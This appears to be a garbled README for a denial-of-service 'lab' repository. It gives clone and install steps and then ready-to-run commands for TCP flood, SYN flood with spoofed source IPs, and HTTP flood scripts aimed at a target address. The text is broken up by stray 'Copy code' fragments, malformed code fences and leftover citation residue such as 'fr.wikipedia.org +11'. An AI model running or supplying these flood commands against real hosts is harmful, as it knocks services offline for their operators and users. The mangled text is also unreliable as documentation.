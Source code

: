 git clone https://github.com/Mrglitchoffical/Ddos_Lab-2.git

cd Ddos_Lab-2

apt install python -y

pip install -r requirements.txt

## Attacks

### TCP Flood
```bash
cd attack
python3 tcp_flood.py 192.168.0.100 80 200 0.01
```

### SYN Flood
```bash
Copy code
python3 syn_flood.py -t 'Your Link'
```
50 k SYN packets with random spoofed IPs 
fr.wikipedia.org
tekleo.net
+11
thepythoncode.com
+11
cloudflare.com
+11
.

### HTTP Flood
bash
``` Copy code
python3 http_flood.py http://192.168.0.100 100 60```

